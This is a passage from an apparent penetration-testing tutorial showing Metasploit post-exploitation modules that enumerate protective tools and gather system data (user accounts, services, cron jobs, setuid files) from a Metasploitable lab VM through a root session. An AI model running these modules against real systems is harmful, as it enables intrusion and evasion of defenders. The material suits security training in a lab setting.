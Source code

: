 
Enumerate Protections

Next step in the post-exploit process is to enumerate any tools on the system that might be used to protect the system or identify intruders.

msf post(enum_network) > use post/linux/gather/enum_protections
msf post(enum_protections) > set SESSION 1
SESSION => 1
msf post(enum_protections) > run

[*] Running module against metasploitable
[*] Info:
[*]     Warning: Never expose this VM to an untrusted network!Contact: msfdev[at]metasploit.comLogin with msfadmin/msfadmin to get started
[*] 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[*] Finding installed applications...
[+] ufw found: /usr/sbin/ufw
[+] logrotate found: /usr/sbin/logrotate
[+] tcpdump found: /usr/sbin/tcpdump
[*] Installed applications saved to notes.
[*] Post module execution completed
msf post(enum_protections) >

Enumerate the System

Enumerate various system-related things:

msf post(enum_protections) > use post/linux/gather/enum_system
msf post(enum_system) > set SESSION 1
SESSION => 1
msf post(enum_system) > run

[+] Info:
[+]    Warning: Never expose this VM to an untrusted network!Contact: msfdev[at]metasploit.comLogin with msfadmin/msfadmin to get started
[+] 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[+] 	Module running as "root" user
[*] Linux version stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_487491.txt
[*] User accounts stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_970409.txt
[*] Installed Packages stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_700060.txt
[*] Running Services stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_317107.txt
[*] Cron jobs stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_925574.txt
[*] Disk info stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_498444.txt
[*] Logfiles stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_082265.txt
[*] Setuid/setgid files stored in /root/.msf5/loot/20160326214645_metasploitable_10.0.0.27_linux.enum.syste_964401.txt
[*] Post module execution completed
msf post(enum_system) >
